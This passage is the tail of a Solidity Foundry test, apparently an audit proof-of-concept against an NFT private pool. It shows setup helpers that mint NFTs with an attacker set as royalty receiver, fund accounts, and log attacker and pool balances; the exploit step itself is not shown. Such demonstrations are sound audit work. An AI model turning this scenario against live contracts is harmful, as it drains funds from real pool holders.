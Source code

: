 ```solidity
    }

    /**
     * @notice Simulates deposits of 5 NFTs to the private pool.
     * @param _targetTokenId The specific NFT that will be
     * used by the attacker to perform the exploit.
     */
    function _depositNFTs(uint256 _targetTokenId) internal {
        for (uint256 i = 0; i < 5; i++) {
            // Mint NFTs directly to the Pool to make setup easier.
            nft.mint{value: 1 ether}(
                address(privatePool),
                i == _targetTokenId ? receiver : vm.addr(type(uint64).max), // Set the attacker/royalty receiver account to the passed token only.
                uint96(10)
            );
        }
    }

    /**
     * @notice Funds ETH to the accounts that will need native tokens for this test case.
     */
    function _fundEth() internal {
        vm.deal(address(privatePool), VIRTUAL_BASE_TOKEN_RESERVES);
        vm.deal(receiver, 100e18);
    }

    /**
     * @notice Logs the current state to show the exploit status in the terminal.
     */
    function _logState(string memory state) internal view {
        console.log("");
        console.log("==========================================");
        console.log(state);
        console.log("==========================================");
        console.log(
            string.concat(
                " | Attacker balance:            ",
                string.concat(
                    Strings.toString(receiver.balance / 1e18),
                    ".",
                    Strings.toString((receiver.balance % 1e18) / 1e17)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Pool balance:                ",
                string.concat(
                    Strings.toString(address(privatePool).balance / 1e18),
                    ".",
                    Strings.toString(
                        (address(privatePool).balance % 1e18) / 1e17
                    )
                ),
                " ETH"
            )
        );
        console.log("==========================================");
    }
}
```